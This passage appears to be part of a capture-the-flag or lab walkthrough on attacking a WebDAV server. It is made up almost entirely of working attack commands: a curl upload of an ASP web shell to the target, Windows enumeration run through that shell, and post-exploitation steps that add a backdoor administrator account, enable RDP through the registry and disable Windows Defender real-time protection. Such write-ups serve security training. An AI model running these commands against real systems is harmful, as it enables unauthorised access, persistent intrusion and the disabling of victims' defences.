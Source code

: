 ### Alternative Upload Methods

```bash
# Using curl for upload
curl -X PUT -u <username>:<password> \
     http://<target_ip>/webdav/shell.asp \
     --data-binary @/usr/share/webshells/asp/cmdasp.asp

# Using browser access (if available)
# Navigate to: http://<target_ip>/webdav/
# Upload file through web interface
```

## Command Execution and Post-Exploitation

### Web Shell Usage

Once the web shell is uploaded, access it through:

```
http://<target_ip>/webdav/cmdasp.asp
```

### Common Commands via Web Shell

```cmd
# System information
whoami
systeminfo
hostname

# Network information
ipconfig /all
netstat -an

# User enumeration
net user
net localgroup administrators

# File system exploration
dir C:\
type C:\flag.txt

# Network shares
net share
```

### Advanced Post-Exploitation

```cmd
# Create new user
net user hacker Password123! /add
net localgroup administrators hacker /add

# Enable RDP (if available)
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable Windows Defender (temporarily)
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
```
